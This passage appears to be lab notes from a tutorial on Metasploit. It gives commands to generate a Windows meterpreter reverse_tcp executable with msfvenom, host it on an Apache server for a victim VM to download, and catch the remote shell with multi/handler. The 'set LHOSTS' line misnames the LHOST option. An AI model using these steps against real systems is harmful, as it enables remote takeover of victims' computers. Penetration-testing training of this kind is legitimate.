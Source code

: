 ```sh
set LHOSTS <attacker-ip>
```

```sh
exploit
```

Start apache2 server
```sh
sudo service apache2 start
```

Now if we use the Windows VM and go to the server `<attacker-ip/payload.exe>` it will automatically download the file.

If the user clicks to run the program it will open a meterpreter shell on our Kali machine.

Background the meterpreter shell
```sh
background
```

Re-launch the session
```sh
sessions -i 1
```
- i - id number


**MSFVenom**

Create windows payload in MSFVenom
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -f exe LHOST=<attacker-ip> LPORT=4444 -o /home/payload.exe
```
- Once again we can copy this into our server for easy access.

Move into server
```sh
sudo mv /home/payload.exe /var/www/html/payloads/
```

Set up the listener 
```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set PAYLOAD windows/meterpreter/reverse_tcp
```

```sh
set LHOSTS <attacker-ip>
```

You can use the `help` command to list what meterpreter can do
